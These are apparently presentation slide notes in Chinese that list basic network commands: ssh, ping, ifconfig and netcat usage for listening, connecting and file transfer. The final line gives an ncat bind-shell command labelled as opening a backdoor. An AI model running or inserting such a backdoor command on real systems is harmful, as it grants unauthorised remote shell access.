

# 网络操作
ssh :与远程服务器连接 ssh bob@1.2.3.4
ping: 用来确认网络连接是否畅通或查看连接的速度 如 ping www.baidu.com
 ifconfig: 查看用户网络配置
nc （ncat、 netcat）
nc -l 8080:  监听8080端口
nc -l -u 1234:  默认监听tcp端口，-u可以监听UDP端口
nc 192.168.1.100 80:  与192.168.1.100下的80端口的server连接
传文件B->A：
        A:    nc -l 8080 > file.txt
        B:    nc 192.168.1.100 8080 --send-only < data.txt
ncat -l 10000 –e  /bin/bash: 开后门